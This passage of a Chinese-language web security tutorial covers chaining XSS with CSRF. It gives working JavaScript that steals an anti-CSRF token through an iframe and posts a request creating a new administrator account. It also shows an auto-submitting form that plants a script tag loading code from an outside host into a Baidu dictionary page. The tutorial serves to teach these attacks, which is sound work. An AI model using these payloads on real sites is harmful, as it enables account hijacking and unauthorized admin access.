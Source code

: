 那么我们就不能直接构造出攻击页面了，因为token的值我们无法预测，一般情况下我们也无法得到token的值，但我们假设，在给管理员留言的地方存在XSS漏洞，但是管理员的Cookie加了HttpOnly属性，我们无法通过XSS直接获取管理员的Cookie，那该怎么办呢？我们可以把这两个漏洞结合起来利用。

我们可以利用XSS在管理员的浏览器中执行下面的JavaScript代码：

```
<script>
    var frameObj = document.createElement("iframe");
    frameObj.setAttribute("id", "add");
    document.body.appendChild(frameObj);
    document.getElementById("add").src = "admin.php?c=admin&f=save";
    var token = document.getElementById("add").contentWindow.document.getElementById("token").value; //从iframe中的页面中获取token值
    var xmlhttp;
    if (window.XMLHttpRequest) { // code for IE7+, Firefox, Chrome, Opera, Safari
        xmlhttp = new XMLHttpRequest();
    } else { // code for IE6, IE5
        xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
    }
    xmlhttp.open("POST", "admin.php?c=admin&f=save", true);
    xmlhttp.send("id = & accont = wooyun&pass=123456&status=1&if_system=1&token=" + token); //带上token提交添加管理员的请求
</script>

```

代码很好理解，首先我们通过iframe的方式嵌入含有token的页面，因为同域，所以我们可以对页面中的DOM进行读写操作，所以顺利取得token；然后我们利用AJAX的方式带上token提交添加管理员的请求，我们依靠XSS成功突破了页面对CSRF攻击的防护。

2） 结合CSRF发起XSS攻击

（实例来源：[百度某站可结合CSRF及XSS劫持账号](http://www.wooyun.org/bugs/wooyun-2010-033537)）

在百度词典-我的词典处，有将生词添加进生词本的功能，在备注的时候没有进行过滤，可以直接插入JavaScript代码。

但这显然是一个“SELF-XSS”,只能跨自己，有什么用呢？

再看看，页面似乎没有对CSRF做防护，那么我们是不是可以利用CSRF来触发这个XSS，让别人跨自己呢？

构造POST请求页面如下：

```
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>
<body>
    <form id="baidu" name="baidu" action="http://dict.baidu.com/wordlist.php" method="POST">
        <input type="text" name="req" value="add" />
        <input type="text" name="word" value="Wooyun" />
        <input type="text" name="explain" value="<script src=http://xsserme></script>" />
        <input type="submit" value="submit" />
    </form>
    <script>
        document.baidu.submit();
    </script>
</body>
</html>

```
